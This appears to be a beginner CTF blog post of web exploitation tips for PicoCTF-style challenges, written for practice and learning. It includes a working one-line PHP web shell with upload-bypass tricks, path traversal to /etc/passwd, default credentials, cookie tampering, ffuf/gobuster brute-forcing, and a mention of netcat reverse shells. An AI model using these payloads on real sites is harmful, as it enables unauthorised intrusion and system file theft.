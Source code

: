```yaml
---
layout: post
title: "Tips On WebExploitation-2"
date: 2025-08-04
categories: [CTF Tips & Tricks]
tags: [picoctf, webexploitation, ctf]
---
```


## 🧠 Introduction

Web exploitation is a key skill in many beginner-level CTFs like PicoCTF. This post summarizes useful tips, tricks, and patterns to identify common vulnerabilities in CTF-style challenges, especially for those just starting out.

---

## 📄 General Approach

- 🔍 **Always try to see the source code**  
  Use `Ctrl+U` or browser dev tools to view HTML/JS/CSS and look for hidden fields, comments, or clues.

- 🔐 **Try default credentials first**  
  Common pairs include:
  - `admin:admin`
  - `admin:password`
  - `test:test`

- ⚙️ **Inspect page elements**  
  Use `Inspect Element` (`F12`) to look for editable or hidden fields, debugging info, and scripts.

- 🌐 **Use the Console and Network tabs**  
  Monitor background API calls, request headers, query parameters, and suspicious URLs.

---

## 📂 File Upload Tricks

If the challenge has a file upload feature, try the following:

- Test various extensions:
  - `.php`, `.html`, `.js`, `.jpg`, `.png`, `.svg`, etc.
  - Rename payloads: `shell.php.jpg`, `shell.jpg.php`, etc.

- **Magic Bytes Trick**:
  - Magic bytes are the **first few bytes of a file that indicate its format**.
  - Example for JPEG: `\xFF\xD8\xFF`
  - Even if a file has `.jpg` extension, it won’t be treated as an image unless the magic bytes match.

- Use PHP payload:
  ```php
  <?php system($_GET["cmd"]); ?>
  ```
  - Save it as `shell.php`
  - Prepend it with magic bytes using a hex editor or script
  - Upload and try visiting:
    ```
    http://target.com/uploads/shell.php?cmd=ls
    ```

- **MIME-Type Bypass**:
  - Check if the server filters by MIME type.
  - Intercept requests using **Burp Suite** and modify `Content-Type`.

---

## 🍪 Cookie Tampering

- View cookies in **DevTools → Application → Cookies**.
- Common targets:
  - `isAdmin=false` → change to `true`
  - `role=user` → change to `admin`
  - `access=guest` → try `access=superuser`

- Look for **Base64** or **JWT** tokens:
  - Decode Base64 in browser console:
    ```js
    atob("base64encodedstring")
    ```
  - Decode JWT tokens on [jwt.io](https://jwt.io)

- Refresh the page after modification to observe changes.

---

## 🧾 Parameter Tampering

- Modify URL query parameters:
  - `?admin=true`
  - `?debug=1`
  - `?file=../../../../etc/passwd`
  - `?view=source`

- Edit hidden form fields using DevTools (e.g., change `price=1` to `price=0.01`).

- Intercept and modify parameters using **Burp Suite**.

---

## 📁 Hidden or Forgotten Files

Try accessing:

- `/robots.txt`
- `/admin/`
- `/backup.zip`, `.git/`, `.DS_Store`
- `/secret/`, `/hidden/`

Use directory brute-forcing tools:

- `ffuf`:
  ```bash
  ffuf -u http://target.com/FUZZ -w /path/to/wordlist.txt
  ```
- `gobuster`:
  ```bash
  gobuster dir -u http://target.com -w /path/to/wordlist.txt
  ```

Good wordlists:
- `SecLists/Discovery/Web-Content/common.txt`

---

## 🐚 Common PHP Web Shell Usage

- Simple web shell:
  ```php
  <?php system($_GET["cmd"]); ?>
  ```

- Access it like:
  ```
  http://target.com/uploads/shell.php?cmd=ls
  ```

- Common commands:
  - `ls -la` — list files
  - `whoami` — current user
  - `cat /etc/passwd` — dump system user info
  - Use `nc` (Netcat) for reverse shells

⚠️ **Note**: Never try uploading shells to real-world websites. These are for legal CTFs and labs only.

---

## 🧠 Additional Tips

- **Burp Suite** is your best friend — intercept, edit, repeat.
- **Look for HTML comments** in source view (`<!-- hidden hint -->`)
- Try manually accessing `index.js`, `config.json`, `admin.html` etc.
- **Right-click disabled?** Use `Ctrl+U` or open DevTools via `F12`.
- Always try decoding:
  - Base64, URL encoding (`%3D`, `%2F`), hex, Unicode

---

## ✅ Beginner Web CTF Checklist

| 🔍 Check                                | ✅ Done? |
|----------------------------------------|----------|
| View source code and HTML comments     | ☐        |
| Try default login credentials          | ☐        |
| Inspect cookies and tamper values      | ☐        |
| Upload shell via file upload           | ☐        |
| Try file path traversal in parameters  | ☐        |
| Visit `/robots.txt`, `/admin/` etc.    | ☐        |
| Use `ffuf`/`gobuster` to brute files   | ☐        |
| Decode all base64 / JWT / URL strings | ☐        |

---

🔚 **Remember**: Every challenge hides clues — filenames, cookies, comments, responses, or weird behavior. Stay curious and inspect everything.

Good luck and happy hacking! 🚩